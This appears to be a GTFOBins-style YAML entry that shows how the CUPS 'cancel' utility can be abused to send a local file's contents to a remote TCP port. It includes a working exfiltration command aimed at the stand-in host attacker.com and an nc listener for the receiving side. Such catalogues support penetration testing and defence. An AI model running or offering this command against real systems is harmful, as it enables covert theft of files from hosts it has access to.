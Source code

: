 ```yaml
---
functions:
  file-upload:
    - description: Send contents of a file to a TCP port. Run `nc -nlvp $RPORT > "file to save"` on the attacker system to capture the contents.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        cancel -u "$(cat $LFILE)" -h $RHOST:$RPORT
---
```

